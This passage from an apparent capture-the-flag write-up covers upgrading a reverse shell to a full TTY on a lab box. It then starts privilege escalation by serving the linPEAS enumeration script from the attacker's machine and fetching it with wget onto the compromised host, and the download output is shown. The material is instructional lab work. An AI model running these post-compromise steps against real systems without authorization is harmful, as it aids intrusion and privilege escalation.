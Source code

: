 Reset the reverse shell with:

```text
reset
```

Define the terminal type, `xterm` works 99% of the time:

```text
> Terminal Type? xterm
```

Enable clear screen and movement with `xterm`and enable bash:

```text
export TERM=xterm
export SHELL=bash
```

In another console from your host get the rows and columns of the terminal:

```text
stty -a
```

In the reverse shell set the rows and columns this will fix the margins of your terminal:

```text
stty rows <num> columns <cols>
```

Now confirm that you're in TTY shell with:

```text
tty
```

# Privilege Escalaton: www-data –> david

## linPEAS

Download linPEAS from github:

```shell
❯ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

Setup an HTTP listener:

```shell
❯ sudo python3 -m http.server 80
```

After some looking around, I decided to upload and run linPEAS:

```shell
www-data@traverxec:/dev/shm$ wget  10.10.16.6/linpeas.sh
--2021-10-17 18:33:29--  http://10.10.16.6/linpeas.sh
Connecting to 10.10.16.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 477235 (466K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 10%  160K 3s
    50K .......... .......... .......... .......... .......... 21%  518K 2s
   100K .......... .......... .......... .......... .......... 32%  298K 1s
   150K .......... .......... .......... .......... .......... 42%  422K 1s
   200K .......... .......... .......... .......... .......... 53%  346K 1s
   250K .......... .......... .......... .......... .......... 64%  422K 1s
   300K .......... .......... .......... .......... .......... 75%  328K 0s
   350K .......... .......... .......... .......... .......... 85%  318K 0s
   400K .......... .......... .......... .......... .......... 96%  330K 0s
   450K .......... ......                                     100% 7.59M=1.4s
```